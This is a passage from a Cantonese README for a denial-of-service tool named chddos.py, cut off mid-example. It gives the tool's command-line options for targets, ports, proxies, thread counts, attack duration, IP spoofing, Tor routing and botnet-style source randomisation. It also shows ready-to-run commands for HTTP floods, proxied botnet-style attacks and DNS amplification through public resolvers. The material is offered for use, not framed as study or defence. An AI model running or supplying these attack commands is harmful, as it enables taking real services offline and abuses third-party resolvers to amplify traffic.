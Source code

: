    - 啟動 Tor 服務：`sudo service tor start`。
4. **驗證權限**：
   - 針對需 root 權限嘅功能，運行：
     ```bash
     sudo python3 chddos.py --help
     ```

---

## 使用方法
CHDDOS 透過命令行參數控制，基本語法為：

```bash
python3 chddos.py -t <目標> -p <端口> [選項]
```

### 命令行參數
| 參數 | 描述 | 範例 |
|------|------|------|
| `-t, --target` | 目標 IP/域名或包含目標嘅文件（必須） | `-t example.com` 或 `-t targets.txt` |
| `-p, --port` | 目標端口（逗號分隔，必須） | `-p 80,443` |
| `--proxy-file` | 代理列表文件（IP:Port） | `--proxy-file proxies.txt` |
| `--proxy-type` | 代理類型：`http`、`socks4`、`socks5`（預設：`http`） | `--proxy-type socks5` |
| `-r, --agent-file` | 自定義 User-Agent 列表文件 | `--agent-file agents.txt` |
| `--add-agent` | 額外 User-Agent（逗號分隔） | `--add-agent "Mozilla/5.0,Opera/9.80"` |
| `--threads` | 線程數（預設：100，最大：1000） | `--threads 200` |
| `--rpc` | 每連線請求數（預設：10，最大：100） | `--rpc 20` |
| `--duration` | 攻擊持續時間（秒，預設：300） | `--duration 600` |
| `--spoof` | 啟用 IP 偽造（需 root 權限） | `--spoof` |
| `--tor` | 使用 Tor 網絡（需 root 權限） | `--tor` |
| `--botnet` | 模擬殭屍網絡，隨機化來源 IP（需 root 權限） | `--botnet` |
| `--dns-resolvers` | DNS 放大解析器（預設：`8.8.8.8:53,1.1.1.1:53`） | `--dns-resolvers "8.8.8.8:53,1.1.1.1:53"` |
| `--ntp-resolvers` | NTP 放大解析器（預設：`pool.ntp.org:123`） | `--ntp-resolvers "pool.ntp.org:123"` |
| `--ssdp-resolvers` | SSDP 放大解析器（預設：`239.255.255.250:1900`） | `--ssdp-resolvers "239.255.255.250:1900"` |

### 使用範例
1. **基本 HTTP 攻擊**：
   ```bash
   python3 chddos.py -t example.com -p 80,443
   ```
   - 針對 `example.com` 嘅 80 同 443 端口進行 HTTP 攻擊。
2. **殭屍網絡模擬加代理**：
   ```bash
   sudo python3 chddos.py -t target.txt -p 80,443 --botnet --proxy-file proxies.txt --proxy-type socks5
   ```
   - 使用隨機 IP 同 SOCKS5 代理模擬殭屍網絡攻擊。
3. **DNS 放大攻擊**：
   ```bash
   sudo python3 chddos.py -t target.txt -p 53 --dns-resolvers "8.8.8.8:53,1.1.1.1:53"
   ```
   - 喺 53 端口進行 DNS 放大攻擊。
4. **SSDP 放大攻擊**：
   ```bash
   ```